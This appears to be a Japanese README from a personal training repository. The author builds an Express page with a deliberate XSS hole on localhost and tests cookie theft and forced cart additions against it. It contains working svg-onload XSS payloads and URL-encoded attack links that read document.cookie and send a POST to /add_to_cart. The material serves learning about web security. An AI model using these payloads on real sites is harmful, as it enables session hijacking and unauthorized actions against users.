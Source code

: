 # express-training

わざと XSS 脆弱性のあるページを作り、セッションハイジャックを試す。

## 1. XSS で document.cookie をコンソールに表示する

攻撃者が以下の html をクエリパラメータに仕込んで、攻撃対象にクリックさせる。

```html
<svg onload="console.log(document.cookie)">
```

URL はこうなる

```
http://localhost:3333/search?search=%3Csvg+onload%3D%22console.log%28document.cookie%29%22%3E
```

cookie に http-only 属性が付与されていたため、javascript から読むことはできなかった。


## 2. XSS で「レモンをカートに入れる」リクエストを投げさせる

TODO

攻撃者が以下の html をクエリパラメータに仕込んで、攻撃対象にクリックさせる。

```html
<svg onload="fetch('/add_to_cart',{method:'POST'})">
```

URL はこうなる

```
http://localhost:3333/search?search=%3Csvg+onload%3D%22fetch%28%27%2Fadd_to_cart%27%2C%7Bmethod%3A%27POST%27%7D%29%22%3E
```

被攻撃者はこの URL をクリックし、検索結果ページに遷移するが、同時に埋め込まれたスクリプトで /add_to_cart に POST してしまう。
これにより、レモンが一つカートに追加されてしまう。
// TODO csrf トークンが設定されている場合は？
